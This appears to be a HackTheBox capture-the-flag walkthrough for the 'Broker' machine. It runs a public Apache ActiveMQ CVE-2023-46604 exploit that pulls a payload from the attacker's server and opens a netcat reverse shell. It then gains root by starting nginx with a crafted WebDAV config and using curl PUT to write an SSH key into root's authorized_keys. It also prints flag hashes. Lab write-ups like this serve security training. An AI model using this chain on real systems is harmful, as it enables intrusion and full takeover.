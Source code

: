 ### 2024-04-23-Tue

[Broker | HackTheBox](https://app.hackthebox.com/machines/Broker)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/6239ac7a-aab3-43af-8fd8-8540469abacc)

# About Broker

Broker is an easy difficulty `Linux` machine hosting a version of `Apache ActiveMQ`. 
Enumerating the version of `Apache ActiveMQ` shows that it is vulnerable to `Unauthenticated Remote Code Execution`, 
which is leveraged to gain user access on the target. 
Post-exploitation enumeration reveals that the system has a `sudo` misconfiguration allowing the `activemq` user to execute `sudo /usr/sbin/nginx`, 
which is similar to the recent `Zimbra` disclosure and is leveraged to gain `root` access. 

https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ

```
go run main.go -i 10.129.230.87 -p 61616 -u http://10.10.14.25:8001/poc-linux.xml
```

```
python3 -m http.server 8001 & nc -lnvp 4444
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/2ab3e2f5-a0a7-41d9-8a1d-d80f913dd7b4)

```
e8d4f2eca970362e9afee7788d49d563
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a2b0a477-ced7-4b59-8804-06656f39dfd5)

```
find / -name nginx 2>/dev/null
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/e23bad1c-4ce8-430e-bc91-453ae80ec48b)

```
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events{
		worker_connections 768;
}
http{
	server{
		listen 1337;
		root /;
		autoindex on;
		
		dav_methods PUT;
	}
}
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c55eb806-0609-489a-96b2-67d4f78c5fa9)

```
sudo nginx -c /tmp/pwn.conf
```

```
ss -tlnp
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a5752895-4ebf-4094-a2b5-b872432cb817)

```
ssh-keygen
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/bb933126-6c18-490e-89c2-c91356f8aeea)

```
curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat root.pub)"
```

```
ssh -i root root@localhost
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/5db1ac53-172d-4fba-8c10-7a3a83b4f7c9)

```
4b58e81e41751342d0af697622b260ff
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/be5940ae-30a5-454b-a1b2-38532c904814)

